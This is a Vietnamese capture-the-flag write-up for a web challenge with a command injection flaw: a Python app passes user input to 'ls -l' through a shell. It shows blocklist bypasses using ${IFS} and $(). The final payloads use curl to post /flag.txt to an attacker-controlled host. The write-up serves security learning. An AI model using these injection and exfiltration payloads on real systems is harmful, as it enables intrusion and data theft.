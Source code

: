 # Command Injection

**Tên challenge:** The Existed File

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/the-existed-file)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** The system will check whether the file exists or not. We have also implemented blocklist keywords to detect hackers. Flag is located on `/flag.txt`
Format FLAG: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng check File có tồn tại hay không như sau:

![alt text](./images/image.png)

**B2:** Ta thử Submit `/flag.txt`

![alt text](./images/image-1.png)

**B3:** Ta thử chèn thêm `;` vào input thì kết quả là:
```
Blacklist characters detected!
```

Sau đó, ta đọc **Source Code** mà Challenge cung cấp cho ta thì thu được:
1. Trang Web đã chặn các từ khoá sau:

![alt text](./images/image-2.png)

2. Trang Web đang thực thi câu lệnh `ls -l + input_user` và nếu có kết quả thì sẽ trả về `File is existed!`, ngược lại nếu lệnh thực thi bị lỗi hoặc không có kết quả trả về thì nó sẽ trả về `File is not existed`
```
try:
    command = f"ls -l {file_path}"
    result = subprocess.check_output(command, shell=True).decode()
    if result:
        result = 'File is existed!'
except Exception as e:
    result = 'File is not existed'
```
Ngoài ra, sau khi thử vài payload để thử nối dài `Command` ra thì ta biết được các kí tự như `space`, `%0a`, `%09` đều bị chặn.

Sau khi đi tìm hiểu các cách Bypass có thể và thử nghiệm thì ta rút ra được mấy cách thay thế sau:
1. Ta có thể thay thế `space` bằng `${IFS}`
2. Ta có thể thực thi câu lệnh khác thông qua `$()`

Vấn đề là kết quả mà lệnh thực thi dù được hay không thì đều nằm trong 2 kết quả mà Website đã lập trình sẵn là:
```
File is existed!
File is not existed
```

Cho nên, cách dễ nhất là ta sẽ đẩy file `flag.txt` ra **Web_Attacker** của ta.

**B4:** Ta thử dùng lệnh `curl` đến **Web_Attacker** của ta xem liệu lệnh có được thực thi không ?
```
/etc/passwd$(curl${IFS}https://Web_Attacker)
```

![alt text](./images/image-3.png)

=> Xem ra ta đã có thể `curl` đến **Web_Attacker** của ta.

Tiếp theo, ta chỉ cần đẩy file `flag.txt` ra ngoài thôi.

<u>**Lưu ý:**</u> Nếu bạn sài `webhook.site` thì có thể sẽ gặp lỗi, khuyến khích bạn nên thử các Webhook khác như `RequestBin`,...

**B5:** Đẩy file `/flag.txt` ra ngoài qua payload: `/etc/passwd$(curl${IFS}-X${IFS}POST${IFS}-F${IFS}"file=@/flag.txt"${IFS}https://Web_Attacker)`

![alt text](./images/image-4.png)

=> Tiếp theo, ta chỉ cần Download file về và đọc `Flag` thôi.